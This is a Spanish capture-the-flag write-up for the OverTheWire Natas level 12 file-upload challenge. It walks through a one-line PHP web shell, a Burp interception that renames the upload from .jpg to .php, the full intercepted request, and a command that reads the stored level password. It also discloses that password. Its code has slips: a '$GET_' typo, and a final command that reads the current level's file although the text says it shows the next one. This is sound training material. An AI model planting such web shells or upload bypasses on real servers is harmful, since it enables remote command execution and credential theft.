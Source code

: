 #Natas Level 11 → Level 12

Username: natas12

URL:      http://natas12.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas12.natas.labs.overthewire.org** 
- **Usuario    : natas12**
- **Contraseña : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3**

La contraseña la hemos sacado del nivel anterior.

Entramos a la prueba y nos muestra un mensaje en el que nos dice que podemos subir un fichero **JPEG** pero con un **límite máximo** de **1KB**

```html
Choose a JPEG to upload (max 1KB):
```

Vamos a ver que vemos en el código fuente de la prueba:

```php
<body> 
<h1>natas12</h1> 
<div id="content"> 
<?  

function genRandomString() 
{ 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) 
    { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 
    return $string; 
} 

function makeRandomPath($dir, $ext) 
{ 
    do 
    { 
        $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) 
{ 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

  if(array_key_exists("filename", $_POST)) 
  { 
      $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 
  
          if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) 
          { 
            echo "File is too big"; 
          } 
          else 
          { 
              if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) 
              { 
                  echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
              } 
              else
              { 
                  echo "There was an error uploading the file, please try again!"; 
              } 
          } 
  } 
  else 
  { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
    <input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
    <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
    <input name="uploadedfile" type="file" /><br /> 
    <input type="submit" value="Upload File" /> 
</form> 

<? 
  } 
?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
```

Intentamos subir un fichero pero nos da un error probablemente relacionado con el tamaño del fichero (>1KB):

```html
There was an error uploading the file, please try again!
```

Parece que esta prueba trata de subir un fichero, en principio un **JPG**, que nos permita obtener la contraseña del reto. 

También hemos pensado que podemos **engañar** al sistema subiendo un fichero **php** con terminación en **JPG**. 

Algo así como esto:

```php
phpShell.php.jpg
```

El programa solamente mirará si la extensión del fichero es **JPG** y lo subirá la servidor.

Programamos una **Shell** en **PHP** muy sencilla que nos permitirá lanzar comandos en el servidor

```php
<?php
 passthru($_GET['cmd']);  
?>
```

Lo guardamos como **phpShell.php.jpg** con un tamaño de **35bytes** y lo intentamos subir. 

Con esto estaríamos pasando el filtro del **Tamaño* y el filtro de la **Extensión**

Pulsamos el botón de subir y nos sale este mensaje:

```html
The file upload/28plb5h3bh.jpg has been uploaded
```

Accedemos a la dirección y efectivamente tenemos nuestro objeto subido. Le intentamos cambiar la extensión a **.php** e introducirle algun comando, pero no responde.

```html
http://natas12.natas.labs.overthewire.org/upload/28plb5h3bh.jpg?cmd=ls 
```

ni tampoco con

```html
http://natas12.natas.labs.overthewire.org/upload/28plb5h3bh.php?cmd=ls 
```

Volvemos a leer el código fuente y nos damos cuenta que las funciones **makeRandomPathFromFilename** y **makeRandomPath** eliminan todo el texto anterior a la extensión **jpg**

Tenemos que conseguir **interceptar** el contenido que se envia y cambiarle la extensión a **.php** una vez que ha pasado el filtro de comprobación **jpg**

Para ello vamos a utilizar la herramienta **BURP** que podemos encontrar en la distro de Linux para **Pentesting** - **Kali Linux**

Configuramos el **proxy** del navegador apuntando al **localhost:8080** donde estará **BURP** escuchando para que luego podamos modificar los datos a nuestro antojo.

Subimos el fichero **phpShell.php.jpg** y luego lo cambiaremos luego con el **BURP**

Obtenemos lo siguiente:

```html
POST /index.php HTTP/1.1
Host: natas12.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas12.natas.labs.overthewire.org/
Authorization: Basic bmF0YXMxMjpFRFhwMHBTMjZ3TEtIWnkxckRCUFVaazBSS2ZMR0lSMw==
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------17458871318756377591816066944
Content-Length: 515

-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="filename"

ujofljdn2f.jpg
-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="uploadedfile"; filename="phpShell.php"
Content-Type: application/x-php

<?
passthru($GET_['cmd']);
?>
-----------------------------17458871318756377591816066944--
```

Interceptamos el tráfico y modificamos el valor de **filename**:
- ujofljdn2f.jpg -> phpShell.php

quedando:

```html
-----------------------------17458871318756377591816066944
Content-Disposition: form-data; name="filename"

phpShell.php
```

Le damos a **Forward** en **BURP** y nos indica que hemos **subido correctamente** el fichero a la siguiente dirección

```html
The file upload/ujofljdn2f.php has been uploaded
```

**¡BIEN!** ¡Hemos podido saltarnos el filtro y subido una **Shell** al Servidor! :smile:

Entramos en la **URL** que nos han proporcionado y nos muestra este mensaje:

```php
Notice: Undefined variable: GET_ in /var/www/natas/natas12/upload/ujofljdn2f.php on line 2
Warning: passthru(): Cannot execute a blank command in /var/www/natas/natas12/upload/ujofljdn2f.php on line 2
```

Nos dice que no puede **ejecutar** un **comando en blanco**, por lo tanto **si** podemos enviarle comandos a través de la **URL**! :smile:

Montamos la **URL** y le pasamos los comandos con la opción de:
```html
?cmd=<comando>
````

quedando la URL completa así:

```html
http://natas12.natas.labs.overthewire.org/upload/ujofljdn2f.php?cmd=<comando>
```

Sabemos que la contraseña estará en la siguiente ubicación, por los niveles anteriores:

```bash
cat /etc/natas_webpass/natas12
```

Por alguna razón no me deja ejecutar los comandos que le paso desde el navegador así que modifico directamente el código para que me muestre la contraseña del siguiente nivel.

```php
<?php
 passthru("cat /etc/natas_webpass/natas12");  
?>
```


 












 




